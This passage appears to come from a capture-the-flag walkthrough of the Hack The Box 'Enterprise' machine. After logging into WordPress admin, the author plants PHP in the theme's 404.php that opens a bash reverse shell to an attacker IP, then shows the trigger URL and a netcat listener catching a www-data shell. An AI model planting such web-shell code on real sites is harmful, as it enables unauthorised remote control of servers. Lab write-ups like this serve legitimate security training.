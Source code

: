 The credential worked, and I was redirected to wordpress admin panel.

![](attachments/enterprise_10.png)

Once I have an access to wordpress admin panel, the easiest method is editing php file.
I can edit `404.php` file to spawn a reverse shell.

I inserted the following php code in `404.php` code.

```php
<?php
if (isset($_GET['bokchee'])) {
    $ip = escapeshellarg($_GET['ip']);
    $port = escapeshellarg($_GET['port']);
    system("/bin/bash -c 'bash -i >& /dev/tcp/$ip/$port 0>&1'");
}
?>
```

Then I fetched the `404.php` page using the following URL:
`http://enterprise.htb/?p=169&bokchee=1&ip=10.10.14.4&port=443`

It intentionally triggers `404.php` page loading by fetching non-existing page.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.61] 35140
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@b8319d86d21e:/var/www/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

